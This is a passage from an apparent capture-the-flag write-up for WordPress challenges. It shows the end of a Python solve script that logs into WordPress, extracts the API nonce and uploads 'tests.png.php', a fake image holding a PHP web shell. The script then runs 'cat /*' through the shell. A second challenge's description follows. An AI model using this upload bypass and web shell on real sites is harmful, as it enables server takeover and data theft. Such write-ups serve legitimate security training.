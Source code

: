 ```python
    print(res.text)
    res = await api.c.post("/wp-login.php", data={
        "log": username,
        "pwd": password
    })
    res = await api.c.get("/wp-admin/")
    # get only nonce
    nonce = re.search(r"wpApiSettings.*nonce\":\"([a-f0-9]+)\"", res.text).group(1)
    print(nonce)
    # add mime of png
    mimpng = b"\xFF\xD8\xFF\xDB"
    mimpng += b"<?php system($_GET['cmd']); ?>"
    res = await api.upload_image(("tests.png.php", mimpng), nonce)
    url = res.json()['🖼️']
    print(url)
    res = await api.c.get(url+"?cmd=cat /*")
    print(res.text)


if __name__ == "__main__":
    asyncio.run(main())
```

Flag:

![](./imgs/image_qBEpoQQ3.png)

# **Say Cheese and Authenticate**

## Challenge Information

Description

    Passwords are a thing of the past. Now with 'Say Cheese and Authenticate' you can allow your users to login via a secure login page by using an image instead of a password.

    by Savphill and Patchstack team

    NOTE: This is a fully white box challenge, no heavy brute force is needed.

    [http://3.14.248.34:9047/](http://3.14.248.34:9047/)

Attachment
